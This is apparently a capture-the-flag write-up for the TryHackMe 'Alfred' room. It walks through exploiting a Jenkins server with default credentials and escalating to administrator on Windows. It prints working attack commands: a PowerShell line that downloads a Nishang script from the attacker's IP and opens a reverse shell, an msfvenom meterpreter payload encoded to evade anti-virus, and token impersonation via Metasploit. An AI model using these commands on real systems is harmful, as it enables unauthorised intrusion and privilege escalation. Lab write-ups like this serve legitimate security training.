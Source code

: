 # <div align='center'>[Alfred](https://tryhackme.com/room/alfred)</div>
<div align='center'>Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.</div>
<div align='center'>
  <img src='https://github.com/user-attachments/assets/335a1059-b792-4edc-a5e2-ea767b35e798' height='200'></img>
</div>

# Step 1: Recconance 
```
:~$ nmap -sV 10.10.219.84
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-04 20:35 IST
Nmap scan report for 10.10.219.84
Host is up (0.19s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
3389/tcp open  ssl/ms-wbt-server?
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
1. The scan shows there are 3 ports open
* `80` with web service.
* `3389` useless
* `8080` jenkins running

The port number 80 as default let take a look

![image](https://github.com/user-attachments/assets/7483aad4-dbc8-4c4c-b387-ae7b2848ea25)

find nothing usefull here 

2. As the Jenkins version is outdated let take a look at it

![image](https://github.com/user-attachments/assets/84cdf8d0-1e7e-4d29-9853-e5010f586658)

Okay let try default credentials `admin:admin`

![image](https://github.com/user-attachments/assets/a53f02a6-4d96-4c6f-94ca-ea4b7376ead0)

bingo ! im genious


# Step 2: Exploitation
After Scrollig for long i found a this in `Manage Jenkins` > There is `Script Console`

![image](https://github.com/user-attachments/assets/4a883914-a503-4df8-b551-98415f9cc72b)

After wasting some time i understand the:

let swape cmd and take a look at `C:` drive:

```
cmd = "cmd.exe /c dir"
println cmd.execute().text
```

![image](https://github.com/user-attachments/assets/08208f34-aedc-4bf8-b079-79792292dfb5)

We got some data Now can cast a reverse shell here but 1st we need a reverse shell 
```
git clone https://github.com/samratashok/nishang
```

Go to this directory 
```
cd nishang/Shells/
```

Now we need to pull our revrse shell from our system and place and execute that into target system for doing that in `Shell` directory open a python server to pull the reverse shell form it:
```
python3 -m http.server
```

![image](https://github.com/user-attachments/assets/ec758bd2-d1b0-4211-8d65-cf8fcf5eafc7)

Now Set up a `Netcat` listner on differet port:
```
nc -lnvp 1234
```
For reverse connection

Now we need to download this reverse shell into traget system
```
cmd = "powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-Listner-port"
println cmd.execute()
```

Like this:
```
cmd = "powershell iex (New-Object Net.WebClient).DownloadString('http://10.17.14.127:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.17.14.127 -Port 1234"
println cmd.execute()
```

Got the Connection 

![image](https://github.com/user-attachments/assets/9e6bc915-db95-4347-bcd8-d57eeb0c8c3e)

# Step 3: Post Exploitation

## User flag.txt
```
cat 'C:\Users\bruce\Desktop\user.txt'
```
<!-- 79007a09481963edf2e1321abd9ae2a0 -->
![image](https://github.com/user-attachments/assets/d78864b1-d5c9-46fc-a42c-bec8cfbff9f8)


## Switching Shells
To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.

Use msfvenom to create a Windows meterpreter reverse shell using the following payload:
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-test.exe
```

This payload generates an encoded x86-64 reverse TCP meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.

Start Msfconsole
```
msfconsole -q
```
Start A TCP reverse Handler for connection
```
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp
```
Set Lhost
```
set LHOST your-thm-ip set
```
Set Lport
```
LPORT 5555
```
Start the Listner
```
run
```

First We need to download the our Payload in the Enemy system for doing that open new terminal where your playload is created in my case it `/home/user`
```
python3 -m http.server
```

Download using this command on cmd
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"
```

![image](https://github.com/user-attachments/assets/4408c39f-2e4b-4662-abd9-33f0291d7937)

Let executt it
```
Start-Process "shell-test.exe"
```
![image](https://github.com/user-attachments/assets/ec6fbbcd-504b-4557-86e0-e49ed71d4b73)

Now Let Swape shell
```
shell
```
![image](https://github.com/user-attachments/assets/f52a258f-15aa-4005-b744-567a4465c22a)

Let Check for privillage
```
whoami /prive
```
![image](https://github.com/user-attachments/assets/c873e060-900e-4642-b150-32b0005d4af6)

You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's use the incognito module that will allow us to exploit this vulnerability.

Enter: load incognito to load the incognito module in Metasploit. Please note that you may need to use the use incognito command if the previous command doesn't work. Also, ensure that your Metasploit is up to date.

Press `ctrl`+`c` to exit shell and back to meterpreter

Let see which tokens are available
```
list_tokens -g
```
![image](https://github.com/user-attachments/assets/580e84f2-ddf3-4c5c-a265-50404dd99b3e)

We can see that the BUILTIN\Administrators token is available.

Let  impersonate the Administrators' token:
```
impersonate_token "BUILTIN\Administrators"
```

![image](https://github.com/user-attachments/assets/15dfdeb9-451f-4199-84b2-ab173774e818)

## Root Flag.txt

Let Migrate our permissions

to migrate check the running process

![image](https://github.com/user-attachments/assets/0ee6b838-9ec2-434e-aa7a-81c4f56eeb4b)

Let migrate to this service
```
migrate PID-OF-PROCESS
```
![image](https://github.com/user-attachments/assets/c1b0fc0a-a1f4-4769-8e52-1bf3016fda1f)

View Our Flag
```
type 'C:\Windows\System32\config\root.txt'
```

![image](https://github.com/user-attachments/assets/609af3d5-7e0b-43b4-a689-640cbde2695e)
